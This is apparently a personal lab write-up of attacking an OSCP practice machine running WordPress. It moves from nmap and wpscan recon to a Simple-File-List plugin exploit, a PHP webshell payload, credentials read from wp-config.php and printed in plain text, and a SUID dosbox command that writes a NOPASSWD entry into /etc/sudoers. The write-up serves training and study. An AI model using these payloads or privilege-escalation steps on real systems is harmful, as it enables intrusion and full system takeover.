**Start 13:08 03-01-2025**

---
```
Scope:
192.168.196.105
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap nukem -T5 -vvvv --min-rate=5000 -sT -p-         

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 8.3 (protocol 2.0)
80/tcp    open  http        syn-ack Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
3306/tcp  open  mysql?      syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, HTTPOptions, NULL, afp: 
|_    Host '192.168.45.238' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '192.168.45.238' is not allowed to connect to this MariaDB server
5000/tcp  open  http        syn-ack Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
13000/tcp open  http        syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Login V14
36445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
```

It appears we have a webserver called `Retro Gaming` running on **WordPress 5.5.1** (which we will confirm).

We have a **MySQL** database on `3306` to which we are *NOT* allowed to connect.

Port `5000` is running a Python web server (presumably the backend server).

Port `13000` is running **nginx 1.18.0**.

Lastly port `36445` is running a **SMB 4.6.2** server.


## 80/TCP - HTTP

To further enumerate I first of all went to the website and checked it out.


I inspected it closer using *WappAlyzer*:



## wpscan

In order to see what plugins might be vulnerable I used `wpscan` to check the website:

```bash
wpscan --url http://nukem
```

I then checked out the file and saw the following that stood out:





Knowing this I decided to check whether there's a ready-made PoC available for this version.



Found it.

Furthermore I also found the **Simple-file-list** exploit:



Now this looked a bit more promising, let's try this one out.


# Initial Foothold

The PoC looked somewhat as follows:



This file had to be edited in order for it to work.

I modified **line 36** to the following which would give me a webshell:

```python
payload = '<?php system($_GET["cmd"]); ?>'
```



Then I went to the website:



From here I could go ahead and craft up a reverse shell that would connect back to me, but first I got the `local.txt` flag.


### local.txt




### Reverse Shell - Fail

From here on I had to url encode a simple reverse shell in order to get a normal shell.

>[!fail]
>Unfortunately enough I tried a bunch of different variations and got stuck, so I had to improvise.






### Reverse Shell -Success

For this attempt I went ahead and put a php reverse shell in place of the previous webshell command:





Now that I finally had a shell I could get to exploiting.

>[!summary]
>1) I quickly found out that I had a shell as `http` and I could *NOT* run `sudo -l`.
>2) I was able to view `commander`'s `/home` directory.


## System Enumeration

Before I could go ahead and escalate my privileges, I had to first understand what environment I am dealing with.

To do this I went ahead and issued the following commands:



It seems we're dealing with an **Arch Linux** environment, which is a bit different from Debian-based Linux systems.

Since I couldn't find anything useful right away I decided to look for any config files:

```bash
find / -type f -name "*config*" 2>/dev/null
```

Amongst these I found this one file:

```bash
/srv/http/wp-config.php
```



This could be a really important file for us!!!



Look at that, appears we got the creds for *commander*:

```
commander
CommanderKeenVorticons1990
```

As for the rest of the file I couldn't find anything useful.



Like that we're now the *commander* user.


## MySQL



And now we can enumerate databases.







It seems to be only the admin user, for now we'll just note this and look for other vectors to get `root`.


# Privilege Escalation

I am not allowed to run `sudo -l` so there must be another way.

Apparently the attack vector was way easier, I looked at the binaries again:

```bash
find / -perm -u=s -type f 2>/dev/null
```



I started checking all of them on [gtfobins](https://gtfobins.github.io/gtfobins/dosbox/) when I found `dosbox` to be interesting:



I will be writing the following to the `/etc/sudoers` file so *commander* can also become part of the sudoers group.

```bash
LFILE='/etc/sudoers'
/usr/bin/dosbox -c  'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```



Now if everything went correctly, I can go ahead and issue `sudo -l` now.



Awesome.

Now all that's left to do is:



---

**Finished 17:09 03-01-2025**

[^Links]: [[OSCP Prep]] 

#enumeration #Wordpress 